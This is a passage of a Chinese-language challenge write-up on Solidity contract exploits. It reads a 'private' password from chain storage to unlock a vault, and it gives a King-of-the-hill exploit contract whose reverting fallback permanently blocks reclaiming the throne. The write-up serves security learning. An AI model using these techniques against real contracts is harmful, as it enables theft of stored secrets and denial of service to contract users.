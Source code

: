 要 unlock 这个合约账户，也就是要找到 password

虽然 password 被设为了 private，但是在区块中的数据仍然是可见的，所以只要 getStorageAt 就可以了：
```js
> await web3.eth.getStorageAt(instance, 1) // 0 为 locked 的位置，1 为 password
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
> web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
'A very strong secret password :)'
> await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
// 参数是 bytes32，所以不能直接传字符串进去
```

---

## King 

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract King {
        address payable king;
        uint public prize;
        address payable public owner;

        constructor() public payable {
            owner = msg.sender;  
            king = msg.sender;
            prize = msg.value;
        }

        receive() external payable {
            require(msg.value >= prize || msg.sender == owner);
            king.transfer(msg.value);
            king = msg.sender;
            prize = msg.value;
        }

        function _king() public view returns (address payable) {
            return king;
        }
    }
    ```

当题目再次出资更高的时候，king 就会回到题目上，要保持 king 在自己身上

而每次更换 king 的时候都会先把金额 transfer 给上一个 king，所以只要不接收就好了

可以使用 fallback，然后函数里面直接 revert

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Exploit {
    constructor(address challenge) public payable {
        challenge.call.gas(10000000).value(msg.value)("");
    }
    fallback() external {
        revert();
    }
}
```
注意需要支付大于 1 ether 才可以先拿到 king 

---